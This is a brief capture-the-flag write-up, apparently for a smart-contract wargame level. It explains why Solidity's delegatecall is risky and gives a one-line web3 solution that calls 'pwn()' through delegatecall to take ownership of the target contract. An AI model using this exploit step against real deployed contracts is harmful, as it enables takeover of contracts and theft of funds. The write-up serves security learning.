 The low-level function delegatecall() can be implemented in insecure ways.

## Explanation
Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". 

## Solution

```javascript
sendTransaction({ to: contract.address, data: web3.eth.abi.encodeFunctionSignature("pwn()"), from: player })
```

